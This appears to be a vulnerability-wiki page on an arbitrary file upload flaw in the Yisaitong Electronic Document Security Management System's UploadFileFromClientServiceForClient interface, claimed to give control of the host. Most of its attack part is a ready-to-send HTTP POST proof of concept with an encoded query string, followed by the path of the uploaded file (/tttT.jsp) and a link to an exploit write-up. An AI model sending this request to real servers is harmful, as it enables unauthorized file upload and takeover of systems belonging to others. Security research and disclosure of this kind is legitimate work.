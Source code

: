 # Yisaitong Electronic Document Security Management System UploadFileFromClientServiceForClient Any file upload vulnerability

## Vulnerability Description

Yisaitong Electronic Document Security Management System The UploadFileFromClientServiceForClient interface has a vulnerability to upload any file to the server through the vulnerability and obtain host permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yisetong Electronic Document Security Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662547302195-56a45dcd-8ed2-47e9-b0b7-1ed85f849269.png)

Verify POC

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692098730985-b4483468-8952-4376-a7f7-a61f80f828de.png)

```plain
/tttT.jsp
```

## Reference link

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://github.com/di0xide-U/YSTupload/blob/main/exp.md</span>